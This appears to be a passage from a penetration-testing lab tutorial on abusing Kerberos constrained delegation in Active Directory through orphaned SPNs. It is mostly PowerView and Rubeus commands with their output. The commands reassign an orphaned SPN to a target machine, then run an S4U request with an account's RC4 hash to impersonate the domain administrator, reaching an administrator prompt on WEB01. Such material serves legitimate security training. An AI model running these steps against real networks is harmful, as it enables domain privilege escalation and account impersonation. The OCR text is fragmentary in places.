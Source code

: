 The script will help us search for orphaned SPNs. We will use the flag `-CheckOrphaned` to display only the target with an orphaned SPN. The way the script looks for orphaned SPN is by querying for the existence of the computer or service account name:

```powershell
PS C:\Tools> Get-ConstrainedDelegation -CheckOrphaned

Type  Name  Target  SPN
----  ----  ------  ---
Computer SRV01  DATABASE01 dhcp/DATABASE01
Computer SRV01  DATABASE01 dhcp/DATABASE01.inlanefreigth.local

```

Before we assign the orphaned SPNs to our target machine `WEB01`, it's a good practice to take notes of the SPNs, as the next step involve altering the SPNs.

```powershell
PS C:\Tools> Get-DomainComputer WEB01 | Select-Object -ExpandProperty serviceprincipalname
WSMAN/WEB01
WSMAN/WEB01.inlanefreight.local
TERMSRV/WEB01
TERMSRV/WEB01.inlanefreight.local
RestrictedKrbHost/WEB01
HOST/WEB01
RestrictedKrbHost/WEB01.inlanefreight.local
HOST/WEB01.inlanefreight.local

```

Now we can assign the orphaned SPN `dhcp/DATABASE01` to the target machine `WEB01` using `PowerView`:

```powershell
PS C:\Tools> Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='dhcp/DATABASE01'} -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=WEB01$)(name=WEB01$)(displayname=WEB01$))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'dhcp/DATABASE01' for object 'WEB01$'

```

This action misaligns the SPN's intended association, tricking the Kerberos authentication system into recognizing `WEB01` as the legitimate endpoint for the services initially tied to the SPN. With the misplaced SPN now pointing to `WEB01,` we proceed to use the `S4U` attack using `Rubeus`, using the `SRV01$` account to obtain a service ticket for a privileged user to `WEB01`. We need to set the option `/impersonateuser:<user to impersonate>` and specify the ghosted SPN with `/msdsspn:<ghost/spn>`:

```powershell
PS C:\Tools> .\Rubeus.exe s4u /domain:inlanefreight.local /user:SRV01$ /rc4:ef3d150ee77eb9000001236c52bd2793 /impersonateuser:administrator /msdsspn:"dhcp/DATABASE01" /nowrap
  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: S4U

[*] Using rc4_hmac hash: ef3d150ee77eb9000001236c52bd2793
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\SRV01$'
[*] Using domain controller: 172.16.92.10:88
```

[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname